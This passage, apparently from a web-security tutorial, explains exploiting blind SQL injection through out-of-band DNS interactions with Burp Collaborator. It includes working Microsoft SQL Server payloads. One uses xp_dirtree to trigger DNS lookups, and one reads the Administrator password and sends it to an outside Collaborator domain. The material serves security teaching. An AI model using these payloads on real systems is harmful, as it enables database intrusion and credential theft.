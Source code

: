 The application can execute the same SQL query as in the previous example, but asynchronously. It continues to process the user's request on the original thread and uses another thread to execute the SQL query using the tracking cookie. The request is still vulnerable to SQL injection, but none of the techniques described earlier will help here. The application's response does not depend on whether the request returns data, throws an error, or how long it takes to execute.
In this situation, we can usually exploit the blind SQL injection vulnerability by initiating out-of-band network communications with the system we control. These can be called depending on the injected condition to extract information piecemeal. Moreover, data can be transferred directly within the network communication.

A variety of network protocols can be used for this purpose, but the most effective is usually the DNS (Domain Name Service) protocol. Many production networks allow free outgoing DNS traffic, as it is necessary for the normal operation of the systems. The simplest and most reliable tool for out-of-band techniques is Burp Collaborator. This is a server that provides custom implementations of various network services, including DNS. It allows you to determine when network interactions occur as a result of sending individual payloads to a vulnerable application. Burp Suite Professional includes a built-in client that is ready to work with Burp Collaborator out of the box. You can find more details in the documentation for `Burp Collaborator`.
The techniques for initiating a DNS query depend on the type of database used. For example, in **Microsoft SQL Server** you can use the following input to initiate a DNS query to a specified domain:
```SQL
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```
This will cause the database to attempt to query the following domain:
```
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
```
We can use `Burp Collaborator` to generate a unique subdomain and query the Collaborator server, verifying that DNS queries are being made.

Once we have verified that we can cause `out-of-band` communications, we can use this channel to extract data from the vulnerable application. For example:
```SQL
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```
This input reads the password of the admin user, adds the unique Collaborator subdomain, and issues a DNS query. As a result, we will see the captured password in the DNS query:
```ERROR
S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net
```
**Out-of-band (OAST) techniques** are a powerful way to detect and exploit blind SQL injection vulnerabilities due to their high success rate and the ability to directly transmit data through this channel. This is why OAST techniques are often preferred, even if other methods for exploiting blind SQL injection also work.

>**Note**  
>There are different ways to cause out-of-band interactions, and different databases use different techniques.